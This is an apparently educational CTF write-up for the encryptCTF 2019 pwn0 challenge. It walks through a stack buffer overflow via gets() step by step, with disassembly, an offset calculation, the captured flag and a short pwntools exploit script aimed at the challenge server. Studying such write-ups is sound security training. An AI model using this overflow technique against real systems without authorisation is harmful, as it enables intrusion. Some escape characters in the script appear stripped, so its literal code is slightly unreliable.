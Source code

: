 ```yaml
---
layout: single
title: encryptCTF 2019 Pwn Write-up 1 of 5
excerpt: First part of my encryptCTF 2019 Pwn write-up series. This challenge tackles basic stack buffer overflow — writing a specific value on the exact address needed.
date: '2019-04-04T07:11:23.460Z'
classes: wide
categories: 
- ctf
- encryptctf
tags:
- pwn
- bof
---
```


| ![First pwn board wipe of the year. hsb represent! ](https://cdn-images-1.medium.com/max/800/1*ycEO30rNNBaEmC9qIWf8VQ.png) |
|:--:|
| First pwn board wipe of the year. hsb represent!  |

### Pwn0 Solution (25 pts.)

> This challenge tackles basic stack buffer overflow — writing a specific value on the exact address needed.

Let’s examine the binary.

![Commands used: `file` and `gdb` `checksec`](https://cdn-images-1.medium.com/max/800/1*AlG2dQlbb7jQSUK-d27S-w.png)

Upon checking, we can see that the file is a `32-bit ELF executable,` and `Canary`, `PIE` and `RelRo` are disabled. Hence, we can try to do a `buffer overflow` to overwrite the saved return address.

Let’s try to run the binary.

![Who tf is josh?!? lol](https://cdn-images-1.medium.com/max/800/1*0QkWkHCdq_c8CKFVDpXitQ.png)

The program asks for a user input. Let’s try to enter a test string.

![](https://cdn-images-1.medium.com/max/800/1*Jx_sv50Bw9kjwzTZUWuzFg.png)

After giving a user input, the program will terminate. Let’s disassemble the binary to understand the program flow.

```
gef➤  disas main  
Dump of assembler code for function main:  
   0x080484f1 <+0>: push   ebp  
   0x080484f2 <+1>: mov    ebp,esp  
   0x080484f4 <+3>: and    esp,0xfffffff0  
   0x080484f7 <+6>: sub    esp,0x60  
   0x080484fa <+9>: mov    eax,ds:0x80498a0  
   0x080484ff <+14>: mov    DWORD PTR [esp+0xc],0x0  
   0x08048507 <+22>: mov    DWORD PTR [esp+0x8],0x2  
   0x0804850f <+30>: mov    DWORD PTR [esp+0x4],0x0  
   0x08048517 <+38>: mov    DWORD PTR [esp],eax  
   0x0804851a <+41>: call   0x80483d0 <setvbuf@plt>  
   0x0804851f <+46>: mov    DWORD PTR [esp],0x804861d  
   0x08048526 <+53>: call   0x8048390 <puts@plt> (1)**  
   0x0804852b <+58>: lea    eax,[esp+0x1c]  
   0x0804852f <+62>: mov    DWORD PTR [esp],eax  
   0x08048532 <+65>: call   0x8048370 <gets@plt> (2)**  
   0x08048537 <+70>: mov    DWORD PTR [esp+0x8],0x4  
   0x0804853f <+78>: mov    DWORD PTR [esp+0x4],0x804862d  
   0x08048547 <+86>: lea    eax,[esp+0x5c]  
   0x0804854b <+90>: mov    DWORD PTR [esp],eax  
   0x0804854e <+93>: call   0x8048380 <memcmp@plt> (3)**  
   0x08048553 <+98>: test   eax,eax   
   0x08048555 <+100>: jne    0x804856a <main+121>  
   0x08048557 <+102>: mov    DWORD PTR [esp],0x8048632  
   0x0804855e <+109>: call   0x8048390 <puts@plt>  
   0x08048563 <+114>: call   0x80484dd <print_flag> (4)**  
   0x08048568 <+119>: jmp    0x8048576 <main+133>  
   0x0804856a <+121>: mov    DWORD PTR [esp],0x8048648  
   0x08048571 <+128>: call   0x8048390 <puts@plt>  
   0x08048576 <+133>: mov    eax,0x0  
   0x0804857b <+138>: leave    
   0x0804857c <+139>: ret      
End of assembler dump.
```

Upon inspection, we can see that the binary runs like this —

```
(1) - puts() - prints "How's the josh?"  
(2) - gets() - Asks for input and stores @ `$esp+0x1c  
(3) - memcmp() - Compares the contents of `0x804862d` and `$esp+0x5c`. If the addressses have the same content, the program will proceed to call print_flag  
(4) - print_flag() - calls system("cat flag.txt")
```

![disassembled print_flag function.](https://cdn-images-1.medium.com/max/800/1*qqsoHL-I-DgN6H_gCUy-vQ.png)

Based on the findings above, we need to control the value of `$esp+0x5c` in order to get the flag.  Since the program uses gets(), there is no limit on the input string. Hence, we can overwrite the value of `$esp+0x5c` from our input address of `$esp+0x1c.`

Let’s compute the distance of the two addresses.

```
offset = 0x5c - 0x1c  
offset = 0x40 or 64
```

We need to pad our input with 64 bytes to control the value of `$esp+0x5c.`

Next, we need to identify the value needed for memcmp(). Let’s check the value written on `0x804862d.`

![H!gh. Josh is H!gh. Hmmmm ](https://cdn-images-1.medium.com/max/800/1*rteFSX9VweakLOkfLhx8MA.png)

Now, let’s build our payload.

```
payload = [64 bytes buffer] + "H!gh"
```

Let’s try to send the payload!

![We got the flag](https://cdn-images-1.medium.com/max/800/1*FxoRvDlk9UwVTHFKR5LmCA.png)

The payload worked! And we got the flag 

Flag: `encryptCTF{L3t5_R4!53_7h3_J05H}`

Sample payload script:

```
./exploit.py

from pwn import *

r = remote('104.154.106.182', 1234)

r.recvuntil('josh?')

offset = 64  
payload = "A"*offset  
payload += "H!ghx00"

log.info('Sending payload...')

r.sendline(payload)  
r.recvuntil('flagn')

log.info('Here's your flag ')  
log.info('Flag: {}'.format(r.recvline()))
```

-

— ar33zy

[hackstreetboys](https://hackstreetboys.ph/) aka [hsb] is a CTF team from the Philippines.

Please do like our [Facebook Page](https://www.facebook.com/hackstreetboys/) and Follow us on [Twitter](https://twitter.com/_hackstreetboys), [Medium](https://medium.com/hackstreetboys), and [GitHub](https://github.com/hackstreetboysph).
